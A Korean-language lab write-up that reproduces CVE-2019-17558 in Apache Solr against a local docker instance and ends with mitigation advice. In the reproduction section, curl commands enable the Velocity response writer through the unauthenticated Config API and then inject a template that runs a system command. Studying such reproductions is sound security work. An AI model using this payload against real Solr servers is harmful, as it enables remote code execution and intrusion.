



# Apache Solr Velocity Template RCE (CVE-2019-17558)

## 1. 개요

Apache Solr는 VelocityResponseWriter라는 기능으로 검색 결과를 템플릿 렌더링할 수 있는데, 여기서 사용자가 만든 템플릿도 실행시킬 수 있다. 원래 이 기능은 꺼져 있는 게 기본값인데, 문제는 이걸 켜는 Config API에 인증이 없다는 거다. 누구든 요청 한 번으로 이 기능을 켜고, 그다음 검색 쿼리에 명령 실행 코드를 심어서 서버에서 그대로 돌릴 수 있다.

## 2. 환경 구성

`solr:8.2.0` 서버를 시작한다.

```bash
docker compose up -d
```

`docker-compose.yml`에서 `solr-precreate`로 `mycore` core를 자동 생성해주기 때문에 core를 따로 만들 필요는 없다. 뜬 다음 `http://localhost:8983`에서 Admin 콘솔이 뜨는지 확인하면 된다.

## 3. 취약 조건

- Solr 5.0.0 ~ 8.3.1
- Config API가 인증 없이 외부에서 접근 가능한 상태
- core가 최소 1개 존재

## 4. 취약점 재현

아래 curl 명령어는 macOS/Linux(bash/zsh) 기준입니다. Windows는 WSL 또는 Git Bash에서 실행 필요.

**1. core 이름 확인**

원래는 관리자만 알아야 할 정보지만, 이 API 자체도 인증이 없어서 누구나 조회할 수 있다.

```bash
curl "http://localhost:8983/solr/admin/cores?indexInfo=false&wt=json"
```



`mycore`라는 core가 존재하는 것을 확인했다.

**2. velocity 템플릿 실행 기능 활성화**

Config API에 POST 요청을 보내 `mycore`의 `params.resource.loader.enabled`를 true로 바꾼다. **이 요청에 인증이 걸려 있지 않다는 점이 이 CVE의 핵심 원인이다** — 원래 관리자만 바꿀 수 있어야 할 위험한 설정을 누구나 켤 수 있다.

```bash
curl -X POST -H 'Content-type:application/json' -d '{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}' "http://localhost:8983/solr/mycore/config"
```



`status: 0`으로 성공. 이 시점부터 velocity 템플릿 실행 기능이 켜진 상태가 된다.

```json
{
  "responseHeader": {"status": 0, "QTime": 220}
}
```

**3. velocity 템플릿 주입으로 명령 실행**

`/solr/mycore/select`에 검색 쿼리 대신 velocity 템플릿을 파라미터로 넣어 명령을 실행시킨다.

```bash
curl -H 'Content-Type:application/x-www-form-urlencoded' \
  --data-urlencode "q=1" \
  --data-urlencode "wt=velocity" \
  --data-urlencode "v.template=custom" \
  --data-urlencode "v.template.custom=#set(\$x='') #set(\$rt=\$x.class.forName('java.lang.Runtime')) #set(\$chr=\$x.class.forName('java.lang.Character')) #set(\$str=\$x.class.forName('java.lang.String')) #set(\$ex=\$rt.getRuntime().exec('id')) \$ex.waitFor() #set(\$out=\$ex.getInputStream()) #foreach(\$i in [1..\$out.available()])\$str.valueOf(\$chr.toChars(\$out.read()))#end" \
  "http://localhost:8983/solr/mycore/select"
```



응답 본문에 `id` 명령 실행 결과가 그대로 출력된다.

```
uid=8983(solr) gid=8983(solr) groups=8983(solr)
```

## 5. 대응 방안

- Solr 8.4 이상으로 업데이트한다.
- Config API는 외부에 노출하지 말고 내부망에서만 접근되게 막는다.

